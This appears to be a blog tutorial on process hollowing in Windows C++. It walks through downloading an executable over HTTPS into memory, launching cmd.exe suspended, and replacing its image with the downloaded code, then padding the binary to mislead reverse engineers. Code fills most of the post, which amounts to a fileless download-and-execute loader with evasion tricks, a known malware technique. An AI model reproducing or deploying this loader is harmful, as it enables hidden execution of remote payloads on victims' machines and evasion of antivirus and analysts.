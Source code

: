 {
    "title": "Process Hollowing",
    "description": "Streaming and executing binary code securely",
    "tags": ["Hacking", "Windows", "C++"],
    "author": "Noah",
    "date": "1/13/2023",
    "showTitle": true,
    "indexed": true,
    "pinned": true
}
### Introduction
> Process hollowing is a technique to run executable, binary code, while disguised as a different process. It is mainly used by malware to replace the code of a running, trusted program with its own, making it very difficult to detect. Although its main use is to evade detection by anti-viruses, process hollowing also has a legitimate use.
>
> More information about process hollowing can be found at [https://attack.mitre.org/techniques/T1055/012/](https://attack.mitre.org/techniques/T1055/012/)

We can use process hollowing to download and run an executable without reading or writing to the disk, which is very useful in preventing reverse-engineering of our code.

### Downloading Binary Data
We will use `WinHTTP` to download a file from the internet into a temporary buffer.

First, we open an `HINTERNET` session object and initialize its connection to the domain our binaries are stored on.

    HINTERNET hSession = WinHttpOpen(USER_AGENT, WINHTTP_ACCESS_TYPE_DEFAULT_PROXY, WINHTTP_NO_PROXY_NAME, WINHTTP_NO_PROXY_BYPASS, 0);
    HINTERNET hConnection = WinHttpConnect(hSession, DOWNLOAD_DOMAIN, (DOWNLOAD_USE_HTTPS ? INTERNET_DEFAULT_HTTPS_PORT : INTERNET_DEFAULT_HTTP_PORT), 0);

Here, `USER_AGENT` is defined as a default User Agent (`Mozilla/5.0 (X11;...`) and `DOWNLOAD_DOMAIN` is the domain where our binaries are hosted (`strayfade.com` in this case)
`DOWNLOAD_USE_HTTPS` is defined as `true` so that we connect on port 443 which is used for HTTPS.

    HINTERNET hRequest = WinHttpOpenRequest(hConnection, L"GET", DOWNLOAD_PATH, NULL, WINHTTP_NO_REFERER, WINHTTP_DEFAULT_ACCEPT_TYPES, WINHTTP_FLAG_SECURE);

 - `L"GET"` tells WinHTTP to create a `GET` request
 - `DOWNLOAD_PATH` is the path of the binaries on the server (`/cdn/file.exe`)
 - `WINHTTP_DEFAULT_ACCEPT_TYPES` tells WinHTTP to accept binary data.
 - `WINHTTP_FLAG_SECURE` tells WinHTTP that this data is served over HTTPS.

This code sends the request and reads the response into the `hRequest` variable. Below, we get the size of the transferred data to allocate memory for it.

    WinHttpSendRequest(hRequest, WINHTTP_NO_ADDITIONAL_HEADERS, 0, WINHTTP_NO_REQUEST_DATA, 0, 0, 0))
    WinHttpReceiveResponse(hRequest, NULL)

    DWORD contentLength = 0;
    DWORD contentLengthBufferSize = 128;
    WinHttpQueryHeaders(hRequest, WINHTTP_QUERY_CONTENT_LENGTH | WINHTTP_QUERY_FLAG_NUMBER, WINHTTP_HEADER_NAME_BY_INDEX, &contentLength, &contentLengthBufferSize, WINHTTP_NO_HEADER_INDEX)
    unsigned char* buffer = new unsigned char[contentLength];

Next, we have to read the response into the array
            
    DWORD bytesRead = 0;
    WinHttpReadData(hRequest, (LPVOID)buffer, contentLength, &bytesRead);

### Creating a process
> I learned about most of this from the [adamhlt/Process-Hollowing](https://github.com/adamhlt/Process-Hollowing) repository on GitHub, so credit goes to them for some bits of this code.

First, we have to create a dummy process to be "hollowed":

    CreateProcessA((LPSTR)HOST_PROCESS, nullptr, nullptr, nullptr, TRUE, CREATE_SUSPENDED, nullptr, nullptr, &SI, &PI);

What's important here is the `HOST_PROCESS` variable and `CREATE_SUSPENDED` flag. `HOST_PROCESS` is a path (string) to the executable to hollow. For our use, this is set to the absolute path of `cmd.exe`. The `CREATE_SUSPENDED` flag tells `CreateProcessA` to suspend the process as soon as it is created, letting us replace its PE image before it starts.

We also need to check whether or not the running executable is compatible (has the same architecture as our replacement code). To do this, I'm using functions from the `Process-Hollowing` repository:

    bool bTarget32;
    IsWow64Process(PI.hProcess, &bTarget32);
    ProcessAddressInformation ProcessAddressInformation = { nullptr, nullptr };
    ProcessAddressInformation = GetProcessAddressInformation64(&PI); // Get base address of process to hollow
    const bool bSource32 = IsPE32(hFileContent); // hFileContent is a cast of buffer to type LPVOID

    DWORD dwSourceSubsystem = GetSubsytem64(hFileContent);
    DWORD dwTargetSubsystem = GetSubsystemEx64(PI.hProcess, ProcessAddressInformation.lpProcessImageBaseAddress);
    if (dwSourceSubsystem != dwTargetSubsystem) 
        return;

Finally, we do the actual process hollowing

    bool bHasReloc = HasRelocation64(hFileContent);
    if (!bHasReloc) 
        RunPE64(&PI, hFileContent); 
    else 
        RunPEReloc64(&PI, hFileContent); 

### More Important Things
One neat thing we can do to confuse reverse-engineerers is to pad our executable with junk code, since the whole program only ends up at about 16kb. There aren't many programs that small, so we need to add junk code to make our process hollowing look like it's just running the original program. I added 2mb of filler to the program, since the binaries we were downloading were around that size.

    CreateThread(0, 0, (LPTHREAD_START_ROUTINE)Pad, 0, 0, 0); // This runs in a thread after the process hollowing has finished.

### References 
 - [https://attack.mitre.org/techniques/T1055/012/](https://attack.mitre.org/techniques/T1055/012/)
 - [https://github.com/adamhlt/Process-Hollowing](https://github.com/adamhlt/Process-Hollowing)
 - [https://github.com/kernelm0de/RunPE-ProcessHollowing](https://github.com/kernelm0de/RunPE-ProcessHollowing)